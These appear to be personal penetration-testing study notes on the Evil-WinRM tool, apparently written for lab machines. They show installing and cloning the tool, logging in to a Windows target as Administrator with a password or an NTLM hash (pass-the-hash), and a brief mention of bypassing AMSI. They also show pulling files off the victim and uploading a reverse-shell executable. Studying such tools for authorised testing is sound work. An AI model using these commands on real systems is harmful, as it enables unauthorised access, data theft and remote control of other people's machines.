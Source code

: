 #### Steps
```bash - kali
sudo gem install winrm winrm-fs colorize stringio
```
```bash - kali
git clone https://github.com/Hackplayers/evil-winrm.git && cd evil-winrm
```
Login with either password or Hash.
```bash - kali
ruby evil-winrm.rb -i $TARGET -u $USER -p '$PASSWORD'
```
```bash - kali
ruby evil-winrm.rb -i $TARGET -u Administrator -H '823452073d75b9d1cf70ebdf86c7f98e'
```
Bypass AMSI, used to run PowerShell scripts.
#### Downloading files - ==MUST USE FULL PATHS==
```powershell - windows
download C:\Troubleshooting\powershell-logs.csv /home/kali/Desktop/PG/Compromised/powershell-log
```
#### Uploading files - ==MUST USE FULL PATHS==
```powershell - windows
upload /home/kali/Desktop/PG/Compromised/reverse.exe C:\Troubleshooting\reverse.exe
```
SEE ALSO:
[[3._EvilWinRM]]